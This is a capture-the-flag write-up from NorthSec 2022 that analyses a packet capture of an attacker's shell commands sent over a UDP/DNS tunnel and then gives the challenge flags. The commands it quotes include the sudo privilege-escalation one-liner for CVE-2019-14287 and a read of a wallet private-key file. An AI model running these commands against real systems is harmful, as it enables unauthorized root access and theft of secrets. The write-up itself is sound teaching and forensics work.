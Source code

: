 ```yaml
---
layout: post
title: Portobello 53 - Bargaining
subtitle: NorthSec2022 CTF Challenge Writeup
thumbnail-img: /assets/img/northsec-icon.png
tags: [NorthSec2022, ctf, Portobello 53]
---
```


Back to examining the UDP streams in the original packet capture, portobello53.pcapng. UDP stream 9 with communication between \[IPV6\]::23 and \[IPV6\]::100 has some pretty suspect keywords present in the data...

![DNS stream 9](/assets/img/bargaining/bargaining1_1.png){: .mx-auto.d-block :}

As you can see, "SHELL:hostname" and "SHELL:whoami" stand out like sore thumbs. Let's investigate.

## Bargaining 1/3

By looking at half of the stream with \[IPV6\]::100 as the sender, we can easily identify some more linux commands, but also our first flag!

![DNS stream 9, first flag](/assets/img/bargaining/bargaining1_2.png){: .mx-auto.d-block :}
 
This is simple enough that we can just read and submit the 2 point flag right from here:  
**flag-we_have_a_bad_case_of_ophiocordyceps_unilateralis**.

## Bargaining 2/3

I actually missed the second flag for quite some time - as it turns out, each *emotion* category of the portobello stream had a forum post on the NSec challenge board. For the Bargaining category, it  indicated that the second flag is the MD5 hash of the CVE that identifies the vulnerability exploited in this UDP stream in the format "flag-bargaining-*MD5Hash*".

It's easier to see after decoding the rest of data, but you can infer what is happening with the plaintext commands already present in the data.

```
SHELL:hostname
SHELL:whoami
SHELL:sudo -V| grep "Sudo ver"
SHELL:sudo -u#-1 /bin/bash
SHELL:id -un
SHELL:ls -la
SHELL:cat wallet-priv.txt
```

Upon connection, the actor collects some basic information before checking what version of sudo is running. Presumably, the identified version has a vulnerability whereby the next sent command, `sudo -u#-1 /bin/bash`, escalates the privilege of the user which the actor then confirms with the `id -un` command.

Searching for `sudo -u#-1 /bin/bash` on Google identifies "CVE-2019-14287", and passing that into an MD5 Hash calculator results in our next flag for 1 point:  
**flag-bargaining_739d80f289f091f1d5faf12cfd25fe83**.

## Bargaining 3/3

One obvious thing in the data is that this particular tunnel echos back the response from the shell commands likely as a form of acknowledgement of receipt, meaning, everything of interest is present in one side of the conversation. The `ls` and `cat` commands will likely return some interesting data, and sure enough there are large chunks of data being returned from the commands present in the data.

![DNS stream 9, ls and cat data](/assets/img/bargaining/bargaining3_1.png){: .mx-auto.d-block :}

The next thing of note is the encoding scheme in use. Here, take a look at an ASCII Table and see if it jumps out...

![ASCII Table](/assets/img/bargaining/ASCII-Table.png){: .mx-auto.d-block :}

Yeah! It looks like it is passing a string of hex values representing ASCII data. Let's copy and paste the data into sublime and use some RegEx-fu again to isolate the strings in question.

![Isolated ASCII bytes](/assets/img/bargaining/bargaining3_2.png){: .mx-auto.d-block :}

From here, we should be able to just pass them to python to interpret and print properly. 

```python
bytestring = b'4c6f726...'
print(bytes.fromhex(bytestring.decode('utf-8')))
```

The results:

![Decoded ls and cat data](/assets/img/bargaining/bargaining3_3.png){: .mx-auto.d-block :}

Which provides us the last flag in this category for another 2 points:  
**flag-blockchaiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiin**.
